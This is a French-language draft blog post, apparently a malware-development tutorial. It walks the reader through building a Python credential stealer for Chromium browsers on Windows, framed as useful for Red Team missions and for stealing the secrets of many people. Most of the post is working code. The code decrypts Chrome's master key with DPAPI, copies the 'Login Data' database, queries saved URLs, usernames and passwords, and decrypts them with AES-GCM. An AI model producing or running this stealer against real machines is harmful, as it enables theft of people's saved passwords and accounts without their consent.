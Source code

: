 ```yaml
---
title: "Extraction de secrets des navigateurs basés sur Chromium avec la DPAPI."
description: "Dans cet article nous voyons comment les secrets des navigateurs basés sur Chromium sur les systèmes Windows peuvent être extraits et déchiffrés en utilisant la DPAPI."
createdAt: 05-06-2025
draft: true
tags:
  - maldev
  - browser
  - chromium
  - dpapi
  - aes
author: "Fastiraz"
---
```



<div align=center>
	<h1>La Data Protection API et les navigateurs Chromium</h1>
</div>

---

## `TL;DR`
Nous utiliserons la DPAPI pour déchiffrer les secrets des navigateurs basés sur Chromium sur les systèmes Windows. Vous pourrez retrouver un script un peu plus peaufiné et écrit en Rust [ici](https://github.com/Fastiraz/chromium-based-browsers-secrets-dump).

## Qu'est-ce que la DPAPI ?
La DPAPI (Data Protection API) est un mécanisme de sécurité utilisé dans les systèmes
Windows pour la gestion des secrets. Elle permet la gestion et la protection des informations sensibles telles que les identifiants d'utilisateur, les mots de passe ou les clés de chiffrement.

## Fonctionnement de la DPAPI
Les deux fonctions principalement utilisées sont :

- `CryptProtectData()`:
	Permet aux applications de Windows de sécuriser des informations comme des mots de passe, des clés de chiffrement, ou d'autres données privées.
- `CryptUnprotectdData()`:
	Permet de déchiffrer des données précédemment protégées par `CryptProtectData()`.

## Un blob, c'est quoi ?
Les deux fonctions précédentes prennent en paramètre des data blob. Un Data Blob sous Windows est un type de champ de données qui permet de stocker des quantités massives de données non structurées de façon optimisée.

## Pourquoi la DPAPI ?
La DPAPI permet de chiffrer les secrets des navigateurs basés sur Chromium et sur les systèmes Windows. Aujourd'hui, la plupart des navigateurs sont basés sur Chromium. Google Chrome, Opera, Brave (le GOAT), Microsoft Edge, Vivaldi et plein d'autres... Les navigateurs Chromium et les systèmes Windows étant les plus répandus, développer un stealer les ciblant permettrait de voler les secrets d'un grand nombre de personnes, ce qui serait particulièrement efficace pour les missions Red Team.

## Le Stealer
Pour démontrer l'utilisation de la DPAPI pour les secrets des navigateurs Chromium, nous allons développer ensemble un stealer en python.
Voici les quatre principales étapes du script :

1. **Récupérer la clé** : Extraire la clé de chiffrement à partir du fichier `Local State` du navigateur au format JSON. Cette clé est utilisée pour déchiffrer les mots de passe stockés. C'est à ce moment que nous utiliserons la DPAPI, pour déchiffrer la clé et l'utiliser.
2. **Accéder à la base de données SQLite** : Localiser et copier la base de données `Login Data` qui contient les secrets chiffrés.
3. **Extraire le texte chiffré** : Pour chaque entrée dans la base de données, extraire la chaîne de caractères chiffrée qui contient le mot de passe.
4. **Déchiffrer le mot de passe** : Utiliser la clé déchiffrée et l'algorithme AES pour déchiffrer le mot de passe.

### La clé
Les clés étant chiffrées en utilisant un algorithme de chiffrement symétrique, AES, nous allons développer une fonction qui permet de récupérer cette clé pour déchiffrer les secrets. La clé est stockée en base64 dans l'objet `os_crypt` et sous la clé `encrypted_key`. La clé, une fois décodée, possède un suffixe (`DPAPI`) qu'il faut retirer.

```python
CHROME_PATH_LOCAL_STATE = os.path.normpath(r"%s\AppData\Local\Google\Chrome\User Data\Local State" % (os.environ['USERPROFILE']))

def get_secret_key():
    try:
        with open(CHROME_PATH_LOCAL_STATE, "r", encoding='utf-8') as f:
            local_state = f.read()
            local_state = json.loads(local_state)
        secret_key = base64.b64decode(local_state["os_crypt"]["encrypted_key"])
        secret_key = secret_key[5:]
        secret_key = win32crypt.CryptUnprotectData(secret_key, None, None, None, 0)[1]
        return secret_key
    except Exception as e:
        print("%s" % str(e))
        print("[ERR] Chrome secretkey cannot be found")
        return None
```

### Extraction des secrets de la base de données SQLite
La prochaine étape est de se connecter à la base de données SQLite et de récupérer les informations souhaitées. La base de données est le fichier `Login Data` que nous copierons dans le fichier `Loginvault.db`.
Pour récupérer les secrets souhaités nous utiliserons la requête suivante:
`SELECT action_url, username_value, password_value FROM logins`

```python
CHROME_PATH = os.path.normpath(r"%s\AppData\Local\Google\Chrome\User Data"%(os.environ['USERPROFILE']))

def get_db_connection(chrome_path_login_db):
    try:
        shutil.copy2(chrome_path_login_db, "Loginvault.db") 
        return sqlite3.connect("Loginvault.db")
    except Exception as e:
        print("%s"%str(e))
        print("[ERR] Chrome database cannot be found")
        return None

if(secret_key and conn):
	cursor = conn.cursor()
	cursor.execute("SELECT action_url, username_value, password_value FROM logins")
	for index,login in enumerate(cursor.fetchall()):
		url = login[0]
		username = login[1]
		ciphertext = login[2]
		decrypted_password = decrypt_password(ciphertext, secret_key)
```

### Déchiffrer les secrets
Une fois le mot de passe chiffré récupéré, nous allons le déchiffrer en utilisant l'algorithme AES. Pour ça, nous utiliserons la fonction `decrypt_password` prenant en paramètre le mot de passe chiffré (`ciphertext`) et la clé (`secret_key`) nécessaire pour le déchiffrement. On commence par extraire le vecteur d'initialisation (`initialisation_vector`) et le mot de passe chiffré (`encrypted_password`) à partir du texte chiffré. Le vecteur d'initialisation est obligatoire pour le mode GCM. La fonction `generate_cipher` avec la clé et le vecteur d'initialisation en paramètre, permet de créer un nouvel objet de chiffrement AES configuré en mode GCM. Cet objet est utilisé par la fonction `decrypt_payload` pour déchiffrer le mot de passe.

```python
def decrypt_payload(cipher, payload):
    return cipher.decrypt(payload)

def generate_cipher(aes_key, iv):
    return AES.new(aes_key, AES.MODE_GCM, iv)

def decrypt_password(ciphertext, secret_key) -> str:
    try:
        initialisation_vector = ciphertext[3:15]
        encrypted_password = ciphertext[15:-16]
        cipher = generate_cipher(secret_key, initialisation_vector)
        decrypted_pass = decrypt_payload(cipher, encrypted_password)
        decrypted_pass = decrypted_pass.decode()  
        return decrypted_pass
    except Exception as e:
        print("%s"%str(e))
        print("[ERR] Unable to decrypt, Chrome version <80 not supported. Please check.")
        return ""
```
